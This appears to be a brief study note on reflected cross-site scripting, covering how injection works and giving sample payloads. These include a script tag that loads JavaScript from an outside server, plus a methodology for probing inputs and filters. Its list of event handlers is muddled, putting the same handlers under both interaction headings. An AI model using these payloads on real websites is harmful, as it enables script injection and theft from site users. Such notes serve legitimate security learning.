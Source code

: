 
# Reflected XSS:

  

## How XSS works: When the input directly goes in a particular code section where javascript can be executed.

  

## Where you can execute script

### Script tag

* [Inline Script] <script>alert()</script>

* [External Script] <script src=https://myserver.com/jsthegreat.js></script>

## With event handlers:

* With or Without user interaction
  
   > With User Interaction
   * onload
   * onerror

   > Wihtout User Interaction
   * onerror 
   * onload
  

## Methodology:

* Identifying Entry Points:

> Parameters, Form Fields, Cookies, Request Headers, Error messages

* Check for allowed Characters:

> "'`<>()

> script, alert, confirm, prompt

* Check how the input is processed:

> Is there some type of sanitization
> Is there some type of escaping

* Design the payload
  

